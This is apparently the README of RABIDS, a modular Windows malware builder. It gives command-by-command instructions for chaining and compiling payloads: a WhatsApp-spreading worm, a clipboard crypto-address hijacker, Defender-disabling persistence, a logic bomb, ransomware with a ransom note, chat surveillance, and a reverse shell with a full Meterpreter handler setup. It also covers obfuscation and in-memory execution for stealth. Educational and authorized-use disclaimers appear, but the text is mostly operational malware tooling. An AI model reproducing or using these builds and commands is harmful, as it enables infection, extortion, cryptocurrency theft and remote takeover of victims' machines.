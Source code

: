 ## What's New

### VERSION 0.1.4
- **New Module: `bartmossbrainworm`** - Messaging worm
- **Features:**
  - Spreads itself by automatically sending a configurable message to all chats in WhatsApp Web
  - The message can be set using the `set MESSAGE "your text"` command before build

### VERSION 0.1.3
- **New Module: `gremlin`** - Clipboard wallet address hijacker
- **Features:**
  - Monitors clipboard for copied wallet addresses (Bitcoin, Ethereum, BEP-20, Solana)
  - Automatically replaces detected wallet addresses with user-configurable predefined addresses
  - Predefined addresses for each chain can be set using the `set` command before build

## Overview
**RABIDS** Roving Autonomous Bartmoss Interface Drones is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. RABIDS is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

## Core Workflow
1. List available modules: `show modules`
2. Add modules to your build chain: `use <module>`
3. Set module/build options: `set <OPTION> <VALUE>`
4. Review options: `show options`
5. Build your payload: `build`
6. Find the output in the `.LOOT` directory

## Command Reference

| Command                | Description                                                      |
|-----------------------|------------------------------------------------------------------|
| `use <module>`        | Add a module to the build chain                                  |
| `set <OPTION> <VALUE>`| Set a build or module option                                     |
| `show modules`        | List all available modules                                       |
| `show options`        | Show current build/module options                                |
| `build`               | Build the final EXE payload                                      |
| `clear`               | Clear all selected modules                                       |
| `delete`              | Remove a module from the chain                                   |
| `exit`                | Exit RABIDS                                                      |

## Module Overview & Usage

### Daemon Modules

<details>
<summary>bartmossbrainworm</summary>

- **Description:** A worm that spreads itself through messaging apps.
- **Options:**
  - `MESSAGE`: Message/Payload to send
- **Usage:**
  ```bash
  > use bartmossbrainworm
  > set MESSAGE Hello from Worm
  ```

</details>

<details>
<summary>hellhound</summary>

- **Description:** Gains persistence and disables Defender protections.
- **Options:**
  - `PERSISTENCE`: Enable persistence (default: true)
  - `DEFENDER_EXCLUDE`: Add Defender exclusion (default: true)
- **Usage:**
  ```bash
  > use hellhound
  > set PERSISTENCE true
  > set DEFENDER_EXCLUDE true
  ```

</details>

<details>
<summary>gremlin</summary>

- **Description:** Hijacks clipboard crypto addresses (BTC, ETH, BEP-20, SOL).
- **Options:**
  - `BTC_ADDRESS`: Bitcoin address
  - `ETH_ADDRESS`: Ethereum address
  - `BEP20_ADDRESS`: BEP-20 address
  - `SOL_ADDRESS`: Solana address
- **Usage:**
  ```bash
  > use gremlin
  > set BTC_ADDRESS 1YourBTCAddressHere
  > set ETH_ADDRESS 0xYourETHAddressHere
  > set BEP20_ADDRESS 0xYourBEP20AddressHere
  > set SOL_ADDRESS YourSolanaAddressHere
  ```

</details>

<details>
<summary>blackice</summary>

- **Description:** Blacks out the screen to disrupt user activity.
- **Options:**
  - `DURATION`: Duration of blackout in seconds (default: 60)
- **Usage:**
  ```bash
  > use blackice
  > set DURATION 120
  ```

</details>

<details>
<summary>logicbomb</summary>

- **Description:** Blocks input and triggers DoS on the target.
- **Options:**
  - `BLOCK_INPUT`: Block input (default: true)
  - `TRIGGER_DELAY`: Delay before trigger in seconds (default: 10)
- **Usage:**
  ```bash
  > use logicbomb
  > set BLOCK_INPUT true
  > set TRIGGER_DELAY 30
  ```

</details>

<details>
<summary>silverhandghost</summary>

- **Description:** Provides a reverse shell for remote access (Metasploit compatible).
- **Options:**
  - `LHOST`: Local host IP for reverse shell
  - `LPORT`: Local port for reverse shell
  - `KEY`: Encryption key (default: changeme)
- **Usage:**
  ```bash
  > use silverhandghost
  > set LHOST 192.168.1.100
  > set LPORT 4444
  > set KEY changeme
  ```
- **Metasploit Setup:**
  1. Start Metasploit:
     ```bash
     msfconsole
     ```
  2. Set up the handler:
     ```bash
     use exploit/multi/handler
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST 192.168.1.100
     set LPORT 4444
     run
     ```
  3. Run the built EXE on the target. You should get a Meterpreter session.

</details>

<details>
<summary>krash</summary>

- **Description:** Wipes data and crashes the system using ransomware. Displays a ransom note.
- **Options:**
  - `NOTE`: Ransom note text
- **Usage:**
  ```bash
  > use krash
  > set NOTE "Your files have been encrypted! Contact evil@domain.com."
  ```
</details>

<details>
<summary>overwatch</summary>

- **Description:** Monitors all victims chats (e.g., WhatsApp Web) and logs system activity.
- **Options:** None
- **Usage:**
  ```bash
  > use overwatch
  ```

</details>

## Building & Output

- **Build your payload:**
  ```bash
  > build
  ```
- **Output:** The final EXE will be saved in the `.LOOT` directory in your project root.
- **Build Options:**
  - `exe_name`: Set the output EXE filename (default: payload.exe)
  - `obfuscate`: Enable Rust/LLVM obfuscation (requires Docker)

### Obfuscation & In-Memory Execution
- To enable obfuscation, set:
  ```bash
  > set OBFUSCATE True
  ```
- Make sure you have Docker and the image `ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest` pulled:
  ```bash
  docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
  ```
- In-memory execution is handled automatically when using the Rust loader.

## Advanced Features

### Module Chaining
- Add multiple modules in sequence for complex payloads.
- Example:
  ```
  > use roadrunner
  > use gremlin
  > use krash
  > build
  ```

### Custom Build Options
- Change EXE name, enable/disable obfuscation, configure module-specific parameters.
- Set environment variables for runtime configuration.

## Troubleshooting

### Common Issues
- **No module selected:** Use `use <module>` before running commands
- **Unknown option/module:** Use `show modules` and `show options` to check names
- **Build fails:** Ensure Go, Rust, and Docker (for obfuscation) are installed and in your PATH
- **Output not found:** Check the `.LOOT` directory

### C2 Server Issues (roadrunner, flatline)
- **Connection refused:** Ensure the receiver or Metasploit handler is running on the specified port
- **Data not received:** Check firewall settings and network connectivity
- **Encryption errors:** Verify the encryption key is consistent between sender and receiver

### Build Issues
- **Go compilation errors:** Ensure Go is installed and in PATH
- **Rust compilation errors:** Install Rust toolchain
- **Docker errors:** Install Docker and pull required images for obfuscation

## Security & Legal Notice

- **RABIDS is for educational and authorized security research only.**
- Only use in environments where you have explicit permission.
- The authors are not responsible for misuse, damage, or legal consequences.
- Always follow applicable laws and ethical guidelines.
- The C2 server functionality should only be used in controlled testing environments.
  
### Example Workflow
```
> show modules
> use krash
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use silverhandghost
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

## Legal Disclaimer

RABIDS is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

## License

MIT License. See the `LICENSE` file for details.
